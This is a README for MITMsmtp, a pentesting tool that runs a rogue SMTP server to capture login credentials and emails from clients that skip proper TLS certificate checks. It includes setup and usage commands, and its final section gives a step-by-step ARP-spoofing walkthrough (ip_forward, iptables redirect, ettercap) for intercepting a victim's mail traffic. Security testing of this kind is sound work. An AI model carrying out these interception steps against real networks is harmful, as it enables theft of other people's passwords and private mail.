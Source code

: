 # MITMsmtp
MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login credentials and mails sent over plain or SSL/TLS encrypted connections. The idea is to catch sensitive emails sent by clients which are not correctly verifying the SMTP servers identity in SSL/TLS mode. MITMsmtp will catch username and password as well as the message itself. This way you might gain access to a companies mail server or catch information like password reset tokens or verification links sent by applications. Using those information you might gain more and more access to a system. MITMsmtp has been built to work together with MITM Attacks like ARP Spoofing to terminate encrypted connections.

MITMsmtp offers a command line tool as well as an open Python3 API which can be used to build own tools for automated pentesting of applications.

## Compatibility
MITMsmtp has been tested against the SMTP client of Thunderbird 60.5.3 and some other SMTP clients.

### Connection Security
MITMsmtp supports the following connection security modes:
* Plaintext
* SSL/TLS
* STARTTLS (under development, not yet working)

### Login Methods
MITMsmtp supports the following login methods:
* PLAIN
* LOGIN

Challenge-Response based authentication methods like CRAM-MD5, NTLM or Kerberos can't be supported as these methods require the server to know the cleartext password.

## Setup
MITMsmtp requires Python3 and setuptools. You might want to install git as well. Use the following command on Debian:

`apt install python3 python3-setuptools git`

Now just clone the MITMsmtp repository:

`git clone https://github.com/RobinMeis/MITMsmtp.git`

Change into MITMsmtp directory and start the installation:

`sudo python3 setup.py install`

That's it!

### Updating
`git pull`

`sudo python3 setup.py install`

## Usage
*This section describes the command line usage. For the API reference, please refere to API section.*

Running `MITMsmtp --help` will give you an overview about the available command line switches:
```
usage: MITMsmtp [-h] [--server_address SERVER_ADDRESS] [--port PORT] [--SSL]
                [--certfile CERTFILE] [--keyfile KEYFILE] [--log LOG]
                [--disable-auth-plain] [--disable-auth-login]

MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login
credentials and mails sent over plain or SSL encrypted connections.

optional arguments:
  -h, --help            show this help message and exit
  --server_address SERVER_ADDRESS
                        IP Address to listen on (default: all)
  --port PORT           Port to listen on (default: 8587)
  --SSL                 Enables SSL Support (default: False)
  --certfile CERTFILE   Certfificate for SSL Mode
  --keyfile KEYFILE     Key for SSL Mode
  --log LOG             Directory for mails and credentials
  --disable-auth-plain  Disables authentication using method PLAIN (default:
                        False)
  --disable-auth-login  Disables authentication using method LOGIN (default:
                        False)
```

When running `MITMsmtp` without any parameters it will start an unencrypted SMTP server on port 8587 on all interfaces. Pointing Thunderbird or any other SMTP client will give you the ability to test MITMsmtp. Please keep in mind that the default port MITMsmtp differs from the SMTP default port.

As soon as a client has logged in, you will get the following information:

```
=== Login ===
Username: user@example.com
Password: SuperSecureAndUncrackablePassword
```

After the client has transmitted it's message, you will get basic information about the message:

```
=== Complete Message ===
Username  : user@example.com
Password  : SuperSecureAndUncrackablePassword
Client    : [192.168.178.42]
Sender    : user@example.com
Recipients: recipient-a@example.com
            recipient-b@example.com
```

If you want to get the full message, you have to enable logging.

### Logging
Running `MITMsmtp --log logdir` will enable logging. Please make sure that the directory exists. MITMsmtp will create n+1 files while n is the amount of received messages. Each mail will be written into a new file like it has been received. Additionally all received credentials are stored in `credentials.log`.

### Encryption
Some clients fallback to unencrypted mode if you don't offer SSL/TLS. Always make sure to test this! For clients which don't fallback, you may want to test the encrypted mode. Please keep in mind, that a correctly configured client won't be vulnerable to this attack. You will be unable to fake a trusted certificate for a validated common name and thus the client will stop connection before sending credentials. However some clients don't implement proper certificate validation. This is where this attack starts.

To run MITMsmtp in encrypted mode you need a certificate and the according key. You can use the example in certs/. For some clients you might need to generate own certificates to bypass certain validation steps.

To use MITMsmtp with the example certificates run `MITMsmtp --certfile certs/MITMsmtp.crt --keyfile certs/MITMsmtp.key`.

## MITM
This section shows the usage of MITMsmtp if you are able to intercept the victims traffic.

### ARP Spoofing
ARP Spoofing is one way to get between Victim and Router. In case you have the ability to modify your routers settings, you might skip this step. There are many other ways to perform MITM Attacks like DHCP Race-Conditions or DNS Spoofing. These instructions are just a basic idea how to use MITMsmtp. First of all you need the victims and the routers IP address. Make also sure that your client is connected to the same subnet.

In this example the Routers IP will be *192.168.42.1* and the Victims IP will be *192.168.42.24*. Run the following commands as root.

First of all we are going to enable forwarding mode:

`sysctl -w net.ipv4.ip_forward=1`

To make sure that out victim doesn't find a way around us, block ICMP redirects:

`sysctl -w net.ipv4.conf.all.send_redirects=0`

Next we create a port forwarding rule from SMTP default port 587 to MITMsmtp. Please make sure that your victim uses port 587 and adjust if needed.

`iptables -t nat -A PREROUTING -p tcp --destination-port 587 -j REDIRECT --to-port 8587`

To start ARP Spoofing you will need ettercap. Run the following command and replace the IP addresses according to your setup:

`ettercap -T -M arp /192.168.42.24/ /192.168.42.1/`

Finally you can fire up MITMsmtp:

`MITMsmtp --log log/`

#### Limitations
As we perform a port forward, MITMsmtp can't determine the original packet destination. This means that MITMsmtp can't log the real SMTP server name or IP. If you need these information, just run wireshark while catching mails using MITMsmtp and filter for `tcp.port==587` or `dns`. This way you will be able to get the domain name as well as the original IP.

## Reference
[1] https://tools.ietf.org/html/rfc5321

[2] http://www.samlogic.net/articles/smtp-commands-reference-auth.htm
